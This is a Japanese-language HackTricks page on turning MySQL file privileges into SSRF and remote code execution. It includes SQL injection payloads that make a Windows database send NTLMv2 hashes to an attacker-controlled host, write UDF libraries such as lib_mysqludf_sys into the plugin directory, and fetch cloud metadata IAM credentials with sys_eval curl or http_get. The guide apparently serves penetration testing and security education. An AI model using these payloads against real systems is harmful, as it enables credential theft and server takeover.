 # MySQL File privをSSRF/RCEに利用

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローに学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください。
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加する**、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>

### LOAD\_FILE/LOAD DATA/LOAD XMLをSSRFに利用

すべてのSQL Out of Bandデータ漏洩記事は、ネットワークリクエストを行うために`LOAD_FILE()`文字列関数を使用します。この関数自体は、実行されるオペレーティングシステムとデータベースが開始された設定に基づいて独自の制限があります。

例えば、`secure_file_priv`グローバル変数が設定されていない場合、[デフォルト値は`/var/lib/mysql-files/`に設定されています](https://dev.mysql.com/doc/mysql-installation-excerpt/5.7/en/linux-installation-rpm.html)。これは、`LOAD_FILE('filename')`や`LOAD DATA [LOCAL] INFILE 'filename' INTO TABLE tablename`のような関数を使用して`/var/lib/mysql-files/`ディレクトリからファイルを読み取ることができることを意味します。このディレクトリの外のファイルを読み取ることができるようにするには、`secure_file_priv`オプションを`""`に設定する必要がありますが、これはデータベースの設定ファイルを更新するか、データベースサービスの起動パラメータとして`--secure_file_priv=""`を渡すことによってのみ行うことができます。

それにもかかわらず、`secure_file_priv`が`""`に設定されている状況下では、ファイルの読み取り権限があり、現在のデータベースユーザーの`mysql.user`で`file_priv`が`Y`に設定されていると仮定すると、システム上の他のファイルを読み取ることができるはずです。しかし、これらの関数を使用してネットワークコールを行うことができるかどうかは、非常にオペレーティングシステムに依存しています。これらの関数はファイルを読み取るためだけに構築されているため、ネットワーク関連のコールが可能なのは、[Windowsホスト上のUNCパスへのアクセス時に呼び出されるWindowsの`CreateFileA` APIがUNC命名規則を理解している](https://docs.microsoft.com/en-gb/windows/win32/fileio/naming-a-file)場合のみです。

したがって、ターゲットデータベースがWindowsマシン上で実行されている場合、インジェクションクエリ`x'; SELECT LOAD_FILE('\\\\attackerserver.example.com\\a.txt'); -- //`は[Windowsマシンが攻撃者がコントロールする`\\attackerserver.example.com`で認証を試みるためにNTLMv2ハッシュを送信する結果になります](https://packetstormsecurity.com/files/140832/MySQL-OOB-Hacking.html)。

このサーバーサイドリクエストフォージェリは有用ですが、TCPポート445にのみ制限されています。ポート番号を制御することはできませんが、完全な読み取り権限を持つ共有から情報を読み取ることができます。また、古い研究で示されているように、この限定的なSSRF機能を使用してハッシュを盗み、シェルを取得するためにリレーすることができるので、確かに有用です。

### ユーザー定義関数をRCEに利用

MySQLデータベースでのもう一つのクールなテクニックは、特定の場所やシステムの$PATHに存在する場合、MySQL内からアクセスできる外部ライブラリファイルに存在するユーザー定義関数（UDF）を使用する能力です。

SQLインジェクションを使用して、ネットワーク/HTTPリクエストを行うことができるユーザー定義関数を含むライブラリ（`.so`または`.dll`、LinuxまたはWindowsに依存）を**書き込み**、追加のクエリを通じて呼び出すことができます。

ただし、これには独自の制限があります。`select @@version`で識別できるMySQLのバージョンに基づいて、プラグインをロードできるディレクトリは制限されています。`v5.0.67`以下のMySQLでは、`plugin_dir`変数が設定されていない場合、システムパスからライブラリファイルをロードすることが許可されていました。これは現在変更されており、新しいバージョンでは**`plugin_dir`**変数が通常rootが所有する`/usr/lib/mysql/plugin/`のようなものに設定されています。

基本的に**SQLインジェクションを介してMySQLにカスタムライブラリをロードし、ロードされたライブラリから関数を呼び出すためには**、以下が必要です：

* SQLインジェクションを介して**`@@plugin_dir`**で指定された場所に**書き込む能力**
* 現在のデータベースユーザーの`mysql.user`で**`file_priv`**が**`Y`**に設定されている
* ネットワークやWebアプリケーションのファイルアップロードディレクトリなど、任意の場所からライブラリの生のバイトを読み取ることができるようにするために**`secure_file_priv`**が**`""`**に設定されている

上記の条件が満たされている場合、[**人気のMySQL UDF `lib_mysqludf_sys`ライブラリ**](https://github.com/mysqludf/lib\_mysqludf\_sys)をデータベースサーバーに転送する**古典的なアプローチを使用できます**。その後、`cURL`や`powershell wget`などのオペレーティングシステムコマンドリクエストを使用してSSRFを実行できます。

`x'; SELECT sys_eval('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

このライブラリに宣言されている他の多くの関数については[こちら](https://osandamalith.com/2018/02/11/mysql-udf-exploitation/)で分析を見ることができます。私のように怠け者なら、ターゲットOSのこのUDFライブラリのコピーを`/usr/share/metasploit-framework/data/exploits/mysql/`ディレクトリからmetasploitインストールから入手して始めることができます。

代わりに、データベースがHTTPリクエストを行う能力を提供するために特別に作成されたUDFライブラリがあります。次の構文を使用して、[MySQLユーザー定義関数（UDF）をHTTP GET/POSTに使用](https://github.com/y-ken/mysql-udf-http)することができます。

`x'; SELECT http_get('http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

また、[独自のUDFを作成して、後の悪用に使用することもできます。](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/)

いずれにせよ、ライブラリをデータベースサーバーに転送する必要があります。これは複数の方法で行うことができます。

1. MySQLの`hex()`文字列関数や`xxd -p filename.so | tr -d '\n'`のようなものを使用して、ライブラリの内容を16進数形式に変換し、その後`x'; SELECT unhex(0x1234abcd12abcdef1223.....) into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`を使用して`@@plugin_dir`ディレクトリにダンプします。
2. 代わりに、`filename.so`の内容をbase64に変換し、`x';select from_base64("AAAABB....") into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`を使用します。

`@@plugin_dir`が書き込み可能でない場合は、バージョンが`v5.0.67`以上であれば運が悪いです。それ以外の場合は、パス内の別の場所に書き込み、そこからUDFライブラリをロードします。

* `lib_mysqludf_sys`ライブラリの場合 - `x';create function sys_eval returns string soname 'lib_mysqludf_sys.so'; -- //`
* `mysql-udf-http`ライブラリの場合 - `x';create function http_get returns string soname 'mysql-udf-http.so'; -- //`

これを自動化するためには、[カスタムUDFの使用をサポートする`--udf-inject`オプションを介してSQLMapを使用](https://github.com/sqlmapproject/sqlmap/wiki/Usage)することができます。

Blind SQLインジェクションの場合、UDF関数の出力を一時的なテーブルにリダイレクトし、そこからデータを読み取るか、`sys_eval`や`sys_exec`のcurlコマンド内に密輸された[DNSリクエストを使用](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)することができます。

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)でAWSハッキングをゼロからヒーローに学ぶ</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください。
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に**参加する**、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを共有する。

</details>
